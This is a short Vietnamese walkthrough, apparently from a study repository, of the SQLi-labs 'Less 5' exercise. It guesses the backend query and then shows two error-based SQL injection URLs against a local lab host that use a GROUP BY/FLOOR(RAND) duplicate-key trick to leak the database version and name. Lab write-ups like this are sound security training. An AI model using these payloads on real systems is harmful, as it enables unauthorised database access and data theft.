






# Less 5

Yêu cầu nhập vào một ID



Thử nhập vào một giá trị



Tiếp tục thử để xuất hiện lỗi



Ta thấy ta có thể dự đoán câu query ở bên dưới

```
select * from table where id='$ID' limit 0,1
```

Ta có thể thử để pass qua 



Dựa vào đây ta có thể show ra các thông tin

```
http://192.168.84.233/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version, 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



```
http://192.168.84.233/sqli-labs/Less-5/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Ta có thể khai thác giống với ở [Less-1](Less-1.md)